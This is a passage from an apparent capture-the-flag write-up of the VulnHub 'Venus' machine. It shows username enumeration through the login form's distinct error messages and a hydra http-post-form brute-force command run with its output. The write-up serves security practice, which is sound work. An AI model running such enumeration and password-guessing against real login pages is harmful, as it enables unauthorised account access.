 Backend is Django (Python)

![Writeup-3.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-3.png)

Django gives 500 on unsuccessful username/password combinations.

### Username Enumeration

If we go back to the `/` login and try invalid username/password, we get `Invalid Username`:

![Writeup-4.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-4.png)

Then valid username and invalid password, we get `Invalid Password`:

![Writeup-5.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-5.png)

This means we are able to enumerate usernames by the login form.

hydra syntax for http-post:
```bash
└─$ hydra -l <username> -P <path/to/passwords> <IP> http-post-form "/route/to/login:username=^USER^&password=^PASS^:<Message If Login Is Incorrect>"
```

By using usernames from `xato-net-10-million-passwords-10000.txt` we found 3 valid users:
```bash
└─$ hydra -L /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -p 'letmein' -s 8080 10.0.2.19 http-post-form "/:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-21 10:58:26
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:10000/p:1), ~6250 tries per task
[DATA] attacking http-post-form://10.0.2.19:8080/:username=^USER^&password=^PASS^:Invalid username
[STATUS] 2872.00 tries/min, 2872 tries in 00:01h, 97128 to do in 00:34h, 16 active
```